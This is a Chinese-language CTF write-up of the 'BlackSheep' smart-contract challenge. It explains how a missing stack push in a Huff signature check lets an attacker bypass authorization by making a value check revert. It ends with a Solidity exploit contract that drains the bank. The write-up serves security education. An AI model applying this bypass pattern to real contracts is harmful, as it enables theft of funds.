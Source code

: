 - [BlackSheep](#blacksheep)
- [dodont](#dodont)
- [Dai++](#dai)
- [GrainsOfSand](#grainsofsand)


## BlackSheep

**Goal**

```rust
Bank.balance == 0;
```

**Solution**

目的是从`Bank`中取出所有的存款。

我不是很了解`Huff`，所以基本在通过`AI`解题。

开头定义了`withdraw`接口:

```solidity
function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()
```

代码中定义了`withdraw`会调用`CHECKVALUE`和`CHECKSIG`。

我们的目的是为了调用

```solidity
selfbalance caller
gas call
end jump
```
前提条件
```solidity
 iszero iszero noauth jumpi
```
就是`CHECKSIG`返回`0`，也就是签名和`xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044` 相等，很显然这是不可能的，所以我们就要想想办法。

后面我看到`CHECKSIG`其实根本没有把值推到栈上，而是end返回了:

```solidity
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
```

如果匹配错误，`0 jumpi` 其实根本不会执行，而是直接执行下一行`end jump` 这说明什么？

我们不需要思考如何绕过验证`signer`，我们只需要让`CHECKVALUE`() `revert`就好了，这样栈顶的值就会是`0`，从而成功绕过，那么让`CHECKVALUE() revert`其实很简单，我们只需要定义一个合约在他的`fallback`函数中`revert` 即可。

**Exp**

```solidity
contract Exploit {
    function exp(ISimpleBank bank) external payable {
        bank.withdraw{value: 10}(
            0x0000000000000000000000000000000000000000000000000000000000000000,
            0x00,
            0x0000000000000000000000000000000000000000000000000000000000000000,
            0x0000000000000000000000000000000000000000000000000000000000000000
        );
    }

    fallback() external payable {
        require(msg.value > 30);
    }
}
```
